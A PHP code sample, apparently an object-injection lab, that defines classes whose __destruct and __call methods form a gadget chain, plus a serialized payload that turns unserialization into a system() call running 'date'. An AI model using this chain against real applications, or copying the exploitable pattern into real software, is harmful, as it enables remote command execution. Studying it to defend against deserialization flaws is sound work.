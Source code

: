 ```php
class UserNameHandler {
    public function handleData($name) {
        return ucfirst(strtolower(trim($name)));
    }
}
class EventHandler {
    private $event;
    private $events;
    private $logFilePath;

    public function __construct($event, $events) {
        $this->event = $event;
        $this->events = $events;
        $this->logFilePath = '/tmp/logfile.log';
    }

    public function logEvent($event) {
        file_put_contents($this->logFilePath, $event, FILE_APPEND);
    }

    public function __destruct()
    {
        $this->events->handleEvent($this->event);
    }
}

class UserLogger {
    private $updaters;
    private $logFilePath;

    public function __construct($updaters) {
        $this->updaters = $updaters;
        $this->logFilePath = '/tmp/logfile.log';
    }

    public function __call($method, $attributes)
    {
        return $this->modify($method, $attributes);
    }

    public function modify($updater, $arguments = array())
    {
        return call_user_func_array($this->getModification($updater), $arguments);
    }

    public function getModification($updater)
    {
        if (isset($this->updaters[$updater])) {
            return $this->updaters[$updater];
        }
    }

    public function logData($user) {
        $logMessage = sprintf("User: %s, Age: %d, City: %s\n", $user->name, $user->age, $user->city);
        file_put_contents($this->logFilePath, $logMessage, FILE_APPEND);
    }
}

$payload = "O:4:\"User\":3:{s:4:\"name\";s:4:\"Ivan\";s:3:\"age\";O:12:\"EventHandler\":3:{s:5:\"event\";s:4:\"date\";s:6:\"events\";O:10:\"UserLogger\":2:{s:8:\"updaters\";a:1:{s:11:\"handleEvent\";s:6:\"system\";}s:11:\"logFilePath\";s:16:\"/tmp/logfile.log\";}s:11:\"logFilePath\";s:16:\"/tmp/logfile.log\";}s:4:\"city\";s:5:\"ololo\";}";
```